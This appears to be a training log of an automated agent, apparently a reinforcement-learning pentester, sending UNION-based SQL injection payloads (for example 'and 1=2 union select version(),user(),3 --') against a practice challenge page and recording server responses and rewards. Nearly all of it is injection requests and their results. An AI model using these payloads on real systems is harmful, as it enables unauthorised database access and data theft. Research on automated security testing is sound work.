https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 566/1000000 [3:08:52<1115:14:05,  4.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server r

  0%|          | 567/1000000 [3:09:35<4372:36:55, 15.75s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 568/1000000 [3:09:36<3169:26:22, 11.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 569/1000000 [3:09:37<2297:13:31,  8.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 570/1000000 [3:09:38<1699:07:03,  6.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 571/1000000 [3:09:39<1263:45:48,  4.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 572/1000000 [3:09:40<958:40:03,  3.45s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 573/1000000 [3:09:41<745:47:48,  2.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 574/1000000 [3:09:42<598:33:35,  2.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 575/1000000 [3:09:43<496:07:08,  1.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is

  0%|          | 576/1000000 [3:10:22<3665:52:51, 13.20s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 577/1000000 [3:10:23<2643:44:58,  9.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' an

  0%|          | 578/1000000 [3:10:39<3173:25:01, 11.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 579/1000000 [3:10:40<2295:56:00,  8.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server respons

  0%|          | 580/1000000 [3:11:00<3272:10:30, 11.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 581/1000000 [3:11:01<2368:55:40,  8.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.

  0%|          | 582/1000000 [3:14:48<20544:27:13, 74.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 583/1000000 [3:14:50<14550:06:29, 52.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 584/1000000 [3:14:51<10262:02:38, 36.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https:

  0%|          | 585/1000000 [3:15:07<8556:34:30, 30.82s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 586/1000000 [3:15:09<6145:50:28, 22.14s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 587/1000000 [3:15:11<4470:24:36, 16.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 588/1000000 [3:15:12<3205:16:03, 11.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3

  0%|          | 589/1000000 [3:15:25<3329:14:36, 11.99s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 590/1000000 [3:15:26<2411:46:54,  8.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 591/1000000 [3:15:27<1763:57:12,  6.35s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 592/1000000 [3:15:28<1311:53:21,  4.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 593/1000000 [3:15:29<995:00:05,  3.58s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Quer

  0%|          | 594/1000000 [3:15:36<1320:53:24,  4.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 595/1000000 [3:15:37<1006:20:25,  3.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 596/1000000 [3:15:38<781:10:57,  2.81s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'u

  0%|          | 597/1000000 [3:16:40<5704:54:59, 20.55s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervis

  0%|          | 598/1000000 [3:16:49<4702:56:01, 16.94s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 

  0%|          | 599/1000000 [3:17:18<5719:46:28, 20.60s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 600/1000000 [3:17:19<4078:11:56, 14.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user

  0%|          | 601/1000000 [3:20:58<21085:16:40, 75.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 602/1000000 [3:20:58<14794:01:41, 53.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 603/1000000 [3:21:00<10522:06:06, 37.90s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 604/1000000 [3:21:01<7443:40:19, 26.81s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 605/1000000 [3:21:02<5285:35:33, 19.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 606/1000000 [3:21:03<3782:29:24, 13.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 607/1000000 [3:21:04<2723:43:01,  9.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 608/1000000 [3:21:05<1981:52:22,  7.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 609/1000000 [3:21:10<1837:04:18,  6.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 

  0%|          | 610/1000000 [3:22:28<7740:27:43, 27.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 611/1000000 [3:22:29<5501:20:51, 19.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sele

  0%|          | 612/1000000 [3:24:26<13663:03:43, 49.22s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 613/1000000 [3:24:27<9645:07:54, 34.74s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Sy

  0%|          | 614/1000000 [3:24:52<8836:32:45, 31.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 615/1000000 [3:24:53<6259:00:31, 22.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 616/1000000 [3:24:54<4437:07:20, 15.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,

  0%|          | 617/1000000 [3:25:51<7866:48:11, 28.34s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 618/1000000 [3:25:52<5558:05:15, 20.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 619/1000000 [3:25:53<3966:35:52, 14.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'u

  0%|          | 620/1000000 [3:28:16<14691:48:34, 52.92s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 621/1000000 [3:28:19<10523:37:02, 37.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--


  0%|          | 622/1000000 [3:30:42<19294:32:43, 69.50s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 623/1000000 [3:30:43<13579:03:26, 48.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 624/1000000 [3:30:45<9669:36:53, 34.83s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 625/1000000 [3:30:46<6847:36:37, 24.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 626/1000000 [3:30:47<4873:25:48, 17.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 627/1000000 [3:30:49<3576:08:47, 12.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1--
